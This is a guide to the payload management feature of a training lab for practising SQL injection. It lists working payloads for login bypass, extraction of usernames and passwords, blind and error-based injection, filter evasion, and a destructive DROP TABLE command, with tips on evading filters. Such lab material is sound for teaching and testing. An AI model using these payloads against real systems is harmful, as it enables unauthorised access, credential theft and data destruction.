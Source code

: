 # Payload Management Guide

## Overview
The SQL Injection Lab now includes an interactive payload management system that allows users to add, edit, delete, and use common SQL injection payloads across all vulnerability levels.

## Features

### 1. **View Payloads**
- Click "Show Payloads" to display all available SQL injection payloads
- Each payload is displayed in a code block format
- Click any payload to automatically fill the username field with that payload

### 2. **Manage Payloads**
- Click "Manage" to enable payload management mode
- Hover over any payload to see edit and delete options
- Management options appear as small icons (✏️ for edit, 🗑️ for delete)

### 3. **Add New Payloads**
- When in management mode, use the "Add New Payload" section
- Type your custom SQL injection payload in the input field
- Press Enter or click "Add" to add the payload
- Duplicate payloads are automatically prevented

### 4. **Edit Existing Payloads**
- Click the edit icon (✏️) next to any payload
- The payload becomes editable in an input field
- Press Enter to save or Escape to cancel
- Use the ✓ and ✗ buttons to save or cancel changes

### 5. **Delete Payloads**
- Click the delete icon (🗑️) next to any payload
- The payload is immediately removed from the list
- No confirmation dialog (be careful!)

## Default Payloads Included

The system comes pre-loaded with common SQL injection payloads:

1. `' OR '1'='1' --` - Basic boolean-based bypass
2. `' OR 1=1 --` - Numeric boolean-based bypass
3. `admin' --` - Username-based bypass
4. `' UNION SELECT username, password FROM users --` - UNION-based attack
5. `' OR username='admin' --` - Conditional bypass
6. `1' OR '1'='1` - Alternative boolean bypass
7. `'; DROP TABLE users; --` - Destructive payload (for testing)
8. `' OR SLEEP(5) --` - Time-based blind injection
9. Complex UNION payload for information extraction

## Usage Examples

### Adding Custom Payloads
```sql
-- Time-based blind injection variants
' OR (SELECT SLEEP(5)) --
' UNION SELECT NULL, SLEEP(5) --

-- Error-based injection
' AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT version()), 0x7e)) --

-- Boolean-based blind injection
' AND (SELECT ASCII(SUBSTRING(username,1,1)) FROM users LIMIT 1)>64 --

-- UNION-based data extraction
' UNION SELECT table_name, column_name FROM information_schema.columns --
```

### Editing Existing Payloads
1. Click the edit icon next to a payload
2. Modify the SQL injection syntax
3. Save with Enter or the ✓ button
4. Test the modified payload by clicking on it

## Best Practices

### For Learning
- Start with basic payloads and gradually try more complex ones
- Understand what each payload does before using it
- Test payloads on different levels to see varying protections

### For Testing
- Keep a variety of payload types (boolean, UNION, time-based, error-based)
- Organize payloads by complexity and technique
- Document successful payloads for different scenarios

### For Security Research
- Add payloads specific to your target database (PostgreSQL in this lab)
- Include both basic and advanced evasion techniques
- Test bypass methods for different input validation approaches

## Payload Categories

### 1. **Authentication Bypass**
```sql
' OR '1'='1' --
admin' --
' OR username='admin' --
```

### 2. **Data Extraction (UNION-based)**
```sql
' UNION SELECT username, password FROM users --
' UNION SELECT table_name, column_name FROM information_schema.columns --
```

### 3. **Blind Injection (Time-based)**
```sql
' OR SLEEP(5) --
' AND (SELECT pg_sleep(5)) --
```

### 4. **Blind Injection (Boolean-based)**
```sql
' AND 1=1 --
' AND (SELECT LENGTH(username) FROM users LIMIT 1)>0 --
```

### 5. **Error-based Injection**
```sql
' AND CAST((SELECT version()) AS INT) --
' UNION SELECT CAST(COUNT(*) AS CHAR) FROM users --
```

### 6. **Advanced Evasion**
```sql
'/**/OR/**/'1'='1'/**/--
' OR 'x'='x
' OR ASCII(SUBSTRING(@@version,1,1))>50 --
```

## Level-Specific Considerations

### Level 1 (No Protection)
- Any payload should work
- Good for learning basic injection techniques

### Level 2-6 (Increasing Protection)
- Some payloads may be filtered
- Use the management system to create variations
- Test bypass techniques for input validation

### Impossible Level
- All payloads should fail
- Use this to test your strongest evasion attempts
- Verify that proper defenses are in place

## Persistence Note
- Payload changes persist during your session
- Refresh the page to reset to default payloads
- Consider saving important custom payloads externally

## Security Warning
⚠️ **Important**: Only use these payloads in controlled environments like this lab. Using SQL injection payloads against systems you don't own or don't have permission to test is illegal and unethical.

## Troubleshooting

### Payload Not Working?
1. Check if the level has input validation
2. Try URL encoding special characters
3. Test different comment styles (-- vs /**/)
4. Verify the payload syntax is correct

### Management Features Not Showing?
1. Ensure you're on a vulnerable level (not "impossible")
2. Click "Show Payloads" first
3. Then click "Manage" to enable management mode

### Can't Add Payload?
1. Check if the payload already exists
2. Ensure the input field is not empty
3. Verify there are no syntax errors

## Additional Resources
- Check `SQLMAP_GUIDE.md` for automated testing
- See level-specific documentation for defense mechanisms
- Review `manual-level1-test.bat` for example attacks

---
*Last updated: December 2024*
